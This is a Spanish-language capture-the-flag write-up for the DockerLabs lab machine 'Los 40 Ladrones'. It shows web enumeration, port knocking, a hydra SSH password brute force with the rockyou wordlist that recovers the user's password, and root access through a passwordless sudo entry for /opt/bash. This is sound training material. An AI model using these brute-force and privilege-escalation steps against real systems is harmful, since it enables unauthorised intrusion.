

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/los40ladrones/index.html · generator: mkdocs

# Los 40 Ladrones

*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*
Gobuster -> /qdefense.txt

```text
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Posible usuario *toctoc*
Hacemos nmap en esos puertos y descubrimos que los puertos están filtrados

![](../../assets/img/Pasted_image_20251013154634.png)

Haciendo port knocking en 7000 8000 9000 con:
`knock -v 172.17.0.2 7000 8000 9000`
Ahora al hacer nmap se desbloquean puertos nuevos:

![](../../assets/img/Pasted_image_20251013160023.png)

intentamos conectarnos a ssh con *toctoc*
`hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
**kittycat**
**toctoc**

## Escalada

*(ALL : NOPASSWD) /opt/bash
(ALL : NOPASSWD) /ahora/noesta/function*

`sudo cat bash`

```text
Sorry, user toctoc is not allowed to execute '/usr/bin/cat bash' as root on 1ae7317e0e65.
```


`sudo /opt/bash`
**root**
